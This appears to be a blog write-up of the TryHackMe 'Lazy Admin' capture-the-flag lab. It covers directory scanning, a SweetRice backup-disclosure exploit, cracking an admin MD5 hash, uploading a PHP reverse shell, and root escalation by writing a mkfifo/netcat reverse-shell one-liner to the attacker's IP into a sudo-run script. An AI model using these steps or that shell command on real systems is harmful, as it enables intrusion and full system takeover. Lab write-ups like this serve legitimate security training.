 ```yaml
---
title: TryHackMe - Lazy Admin
layout: post
categories:
- TryHackMe
tag: security, linux
image: "/assets/img/lazy-admin.jpeg"
image_alt: lazy-admin
---
```


Easy linux machine to practice your skills

<br>

## 1. Lazy Admin     

Have some fun! There might be multiple ways to get user access.

<br>

### 1.1 What is the user flag?

Let's do a nmap scan.

```
$ nmap -sSCV 10.10.221.70
```

![nmap](/assets/img/tryhackme/lazy-admin/nmap.png)

Two ports are open. These are **`22/tcp SSH and 80/tcp HTTP`**. 

Let's visit the website running on `80/tcp` port. 

I see an apache default page on the website.

![apache](/assets/img/tryhackme/lazy-admin/apache.png)

Let's do a `gobuster` scan for the website.

```
$ gobuster dir -u http://10.10.221.70/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-one](/assets/img/tryhackme/lazy-admin/gobuster-one.png)

We found the  `/content/` directory. Let's go to the directory. 

![content](/assets/img/tryhackme/lazy-admin/content.png)

This website uses `SweetRice` and it seems to be closed. 

So, I try another gobuster scan on this directory.

```
$ gobuster dir -u http://10.10.221.70/content/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-content](/assets/img/tryhackme/lazy-admin/gobuster-content.png)

We found a few directories here. Let's examine all directories.

 - _**`/inc/`**_ 
 
	  We found a lot of files in this directory.
     
    ![inc](/assets/img/tryhackme/lazy-admin/inc.png)

    I found lastest.txt. It seems `SweetRice's` running version is `1.5.1.` Maybe this version is vulnerable.

    ![lastest](/assets/img/tryhackme/lazy-admin/lastest.png)

 - _**`/as/`**_
    
	  We found a login page here. 
    
    ![as](/assets/img/tryhackme/lazy-admin/as.png)

<br>

I searched SweetRice in [exploit-db](https://www.exploit-db.com/).  

![search](/assets/img/tryhackme/lazy-admin/search.png)

I am looking to the first. [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718)

![first](/assets/img/tryhackme/lazy-admin/first.png)

According to the vulnerability, there is a msql_backup file under the /inc/ directory.

![say](/assets/img/tryhackme/lazy-admin/say.png)

Let's go and see. 

![back](/assets/img/tryhackme/lazy-admin/back.png)

Let's go to the /mysql_backup/ directory.

![sql-file](/assets/img/tryhackme/lazy-admin/sql-file.png)

Let's see what's inside this file.

```
$ cat mysql_bakup_20191129023059-1.5.1.sql
```

![sql-inside](/assets/img/tryhackme/lazy-admin/sql-inside.png)

We found two important things here.

_**`Admin: manager`**_

_**`Passwd: 42f749ade7f9e195bf475f37a44cafcb`**_

It seems the password is a hash. Let's identify and crack this hash.

![hash-id](/assets/img/tryhackme/lazy-admin/hash-id.png)

This password is encrypted using **`MD5`**.

Let's crack. [https://md5decrypt.net/](https://md5decrypt.net/)

![crack-hash](/assets/img/tryhackme/lazy-admin/crack-hash.png)

_**`Passwd: Password123`**_

Now we can log in as an admin user. Let's go to the /as/ directory and log in.

![home](/assets/img/tryhackme/lazy-admin/home.png)

Now we can upload a reverse shell. So, I download pentest monkey's [php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and edit the php file. `($ip and $port)`

Then we go to the Post > Create 

![post-create](/assets/img/tryhackme/lazy-admin/post-create.png)

After, we can add a file below the page. (.php file isn't working you must change the extension.)

![below](/assets/img/tryhackme/lazy-admin/below.png)

After the upload, the page looks like this.

![upload](/assets/img/tryhackme/lazy-admin/upload.png)

Now, we set up a netcat listener.

```
$ nc -nlvp 4444 
```

Then we go to the [http://10.10.103.31/content/attachment/shell.phtml](http://10.10.103.31/content/attachment/shell.phtml)

And we are inside.

![inside](/assets/img/tryhackme/lazy-admin/inside.png)

Now, let's get to the user flag.

![user-flag](/assets/img/tryhackme/lazy-admin/user-flag.png)

<br>

### 1.2 What is the root flag?

Very surprisingly for www-data, we have sudo privileges.

```
$ sudo -l
```

![sudo-l](/assets/img/tryhackme/lazy-admin/sudo-l.png)

The backup script is a Perl script that calls /etc/copy.sh

![copy](/assets/img/tryhackme/lazy-admin/copy.png)

Now we edit this copy.sh, file to get the root privilege. 

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 5555 >/tmp/f" > /etc/copy.sh 
```

Let's setup a netcat listener.

```
$ nc -nlvp 5555 
```

Let's run the backup.pl file and get the root privilege.

```
$ sudo perl /home/itguy/backup.pl
```

![privesc](/assets/img/tryhackme/lazy-admin/privesc.png)

We are inside. Let's get the root flag.

![root-flag](/assets/img/tryhackme/lazy-admin/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>

